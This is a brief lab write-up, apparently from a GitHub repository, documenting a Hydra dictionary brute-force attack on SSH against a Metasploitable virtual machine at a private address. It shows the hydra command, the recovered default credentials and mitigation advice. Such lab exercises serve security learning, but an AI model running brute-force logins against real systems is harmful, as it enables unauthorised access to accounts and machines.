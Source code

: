 # Hydra SSH Brute Force Attack (Metasploitable)

**Target IP**: 192.168.1.107  
**Port**: 22 (SSH)  
**Tool**: Hydra  
**Attack Type**: Dictionary brute-force (user and password lists)

---

### Command Used:
```bash
hydra -l msfadmin -P pass.txt ssh://192.168.1.107

Result:
Login successful!
Username: msfadmin
Password: msfadmin

Real-World Relevance:
This simulates a brute-force attack that demonstrates how default or weak credentials can lead to full system access. This is a critical risk in real-world environments, especially when SSH is exposed to the internet without proper protections like fail2ban, strong passwords, or key-based authentication.


